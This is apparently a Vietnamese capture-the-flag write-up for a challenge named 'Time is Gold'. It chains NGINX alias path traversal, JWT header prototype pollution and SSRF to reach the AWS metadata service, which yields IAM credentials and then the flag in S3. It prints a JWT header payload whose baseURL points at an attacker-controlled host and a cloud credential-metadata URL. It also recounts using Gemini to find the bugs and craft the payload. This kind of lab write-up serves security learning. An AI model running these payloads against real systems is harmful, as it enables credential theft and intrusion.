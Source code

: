## Time is Gold

### 1. Path traversal via misconfigured NGINX alias
- Được BTC hint cho cái file `server.js` ở `http://47.129.239.241/assets../server.js` chứ mình cũng không mò ra

### 2. Check vulnerables of `server.js`and `jwt.js`
- Tải 2 file về rồi hỏi Gemini: `check my source code and show security vulnerabilities if I missed`
- Tập trung vào output sau

> **Critical JWT Policy Poisoning via Header Tampering**
> Your JWT library's "policy" mechanism can be manipulated by an attacker-controlled JWT header, leading to a bypass of security checks for all subsequent token verifications.
> 
> Vulnerable Code (jwt.js):
> ```
> function headerPolicyFor(typ, overrides, store = defaultHeaderPolicies) {
>  const key = String(typ || 'JWT');
>  if (!store[key]) store[key] = {};
>  const p = store[key];
>  if (isObject(overrides)) { // <-- VULNERABILITY HERE
>    // It merges the "overrides" (from the untrusted token header)
>    // into the shared policy object `p`.
>    for (const k of Object.keys(overrides)) {
>      p[k] = overrides[k];
>    }
>  }
>  return p;
> }

### 3. S3 Storage Usage
- Thấy cái `S3_GOLD_URL`
- IP `47.129.239.241` là IP của Amazon Data Services Singapore
- Đoán mò là Flag sẽ nằm trong S3

### 4. SSRF Potential
- Hỏi tiếp Gemini: `any SSRF that hacker can send request to localhost`
- Tập trung vào output sau
> goldHttpClient Path (direct=false)
> When the direct query parameter is explicitly set to 'false' or '0', this path is taken.
> ```
> response = await goldHttpClient.get(GOLD_API_PATH, requestConfig);
> ```

### 5. Generate payload 
- Tạo cái chat mới để hỏi Gemini tiếp, upload 2 files và hỏi `use headerPolicyFor to set goldHttpClient.defaults.baseURL or parent classes to abuse goldHttpClient.defaults.baseURL`
- Đáp án:
> **Exploitation: Chaining Prototype Pollution to SSRF**
> ```
> {
>  "alg": "HS256", 
>  "typ": "__proto__",
>  "baseURL": "http://attacker-controlled-server.com/"
> }
> ```

### 6. DIY - Do It Yourself
- Vì là S3 nên thử request vô `http://169.254.169.254/latest/meta-data/latest/meta-data/iam/security-credentials/`
- May là trả ra cái role và thử tiếp thì có token
- Tiếp tục hỏi Gemini để cài **AWS CLI** lên máy rồi vô Storage lấy Flag thôi
- Flag mà teammate tìm được, mình chỉ ngồi chat với Gemini thôi

![](./flag_gold.jpg)

## Thanks to CBJS for the chalange!
## Have fun!
